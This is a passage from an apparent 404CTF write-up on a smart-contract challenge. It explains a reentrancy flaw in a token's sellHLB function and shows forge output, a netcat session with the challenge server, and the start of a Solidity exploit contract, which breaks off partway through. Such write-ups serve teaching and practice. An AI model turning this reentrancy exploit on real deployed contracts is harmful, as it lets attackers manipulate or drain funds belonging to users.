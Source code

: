 This contract can be executed with the `forge` command:

```bash
$ forge run test/Converter.t.sol --fork-url http://127.0.0.1:8545 --sig "convert()"
[⠒] Compiling...
[⠆] Compiling 6 files with 0.8.13
[⠰] Solc 0.8.13 finished in 2.05s
Compiler run successful
Script ran successfully.
Gas used: 2108
== Return ==
== Logs ==
  test2: : 38330739118242568697380065849010598905319469511070891991863930858741423657088
```

Unfortunately, the vipPass is not the only thing that is required, we need to have an address that is VIP:

```bash
nc challenge.404ctf.fr 30885
Si vous êtes un membre, appuyez sur entrée. Si vous êtes un VIP, rentrez votre pass :
38330739118242568697380065849010598905319469511070891991863930858741423657088
Nous allons maintenant vérifier que vous êtes bien un vip.
Veuillez rentrer l'adresse ethereum avec laquelle vous êtes vip :
```

### Pwning the contract

To get VIP we have to pass two requires: `require(seniority[msg.sender] >= 10 * 365 days, "Revenez dans quelque temps.");` and `require(seniority[msg.sender] < 150 * 365 days, "Vous vous faites vieux, laissez-nous la place.");`.

The only function that update the seniroity mapping is `function sellHLB(uint256 numTokens)`. This function can only be called once a year and if we have already some HLB tokens. Before updating the `lastWithdrawTime` variable to restrict the call to that function, the fallback to our contract is called, which can call the `sellHLB(uint256 numTokens)` function. In other words, we can call the function `sellHLB(uint256 numTokens)` multiple times before the `lastWithdrawTime` function is updated, this is a reentrency attack!

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "ds-test/test.sol";
import "forge-std/Test.sol";

interface IHallebardeToken {
    function sellHLB(uint256 numTokens) external;

    function seniorityOf(address tokenOwner) external view returns (uint256);

    function balanceOf(address tokenOwner) external returns (uint256);

    function buyHLB() external payable;

    function senior() external view returns (uint256);
}

contract TokenTest is Test {
    uint256 i = 0;
    IHallebardeToken ht =
   IHallebardeToken(address(0xD5c0873f147cECF336fEEF1a28474716C745Df86));

    constructor() payable {}

    function pwn() public {
        ht.buyHLB{value: 12}();
```
